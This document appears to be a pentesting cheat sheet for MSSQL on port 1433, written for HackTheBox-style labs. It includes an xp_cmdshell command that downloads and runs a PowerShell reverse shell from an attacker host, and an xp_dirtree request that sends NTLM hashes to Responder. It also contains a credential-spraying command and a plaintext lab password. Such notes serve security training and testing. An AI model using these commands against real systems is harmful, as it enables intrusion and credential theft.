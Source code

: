 ```yaml
---
title: Port 1433 - MSSQL
draft: false
tags:
  - mssql
  - crackmapexec
  - impacket-mssqlclient
  - cme
---
```

## Enumeration

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Check whether creds found is valid on MSSQL:

``crackmapexec mssql manager.htb -u Desktop/user.txt -p Desktop/user.txt --no-brute --continue-on-success`

## Interaction

Using **impacket-mssqlclient**, interact with the database:

`mssqlclient.py reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth`

![](https://i.imgur.com/bR3FwZc.png)

Below are example interaction:

```sql
SELECT name FROM master.dbo.sysdatabases;
USE master;
select table_name from information_schema.tables;
SELECT COLUMN_NAME, DATA_TYPE, CHARACTER_MAXIMUM_LENGTH, NUMERIC_PRECISION, NUMERIC_SCALE from information_schema.columns where table_name = 'spt_fallback_db';
```



  

## Command Execution

Try **xp_cmdshell** and **xp_dirtree**:
  

```sql
xp_dirtree
xp_cmdshell
EXEC xp_cmdshell
EXEC xp_dirtree
```



  If they are not enabled, try enabling them:

  

```sql
enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

  

### Example CME

If there's **IIS** running and **xp_dirtree** is enabled:

```sql
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

### Reverse Shell

First check the privilege by typing in `help`:

![](https://i.imgur.com/ADm124T.png)


Enable **xp_cmdshell**:

`enable_xp_cmdshell` & `RECONFIGURE`

![](https://i.imgur.com/zDNomDR.png)


To spawn reverse shell, prepare nishang's **Invoke-PowerShellTcp.ps1** on your attacking directory and start python HTTP server.

Using the command below, download and execute reverse shell script toward your Kali listener:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.17:8000/ps-rev.ps1") | powershell -noprofile'`

![](https://i.imgur.com/ScVyR6x.png)


Now on your local netcat listener, you have a shell:

![](https://i.imgur.com/NaBRupU.png)


## Relay Attack

Follow [this guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack) on Hacktricks.

First start Responder:

`sudo responder -I tun0`

![](https://i.imgur.com/7mAQptg.png)


Now on MSSQL connection, make a request to Kali's responder:

`xp_dirtree '\\10.10.14.17\home\yoon`

![](https://i.imgur.com/3e75O33.png)



Instantly, reponsder captures NTLM hash:

![](https://i.imgur.com/OCuWc95.png)


On [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server), there's more detailed guide on pentesting MSSQL.
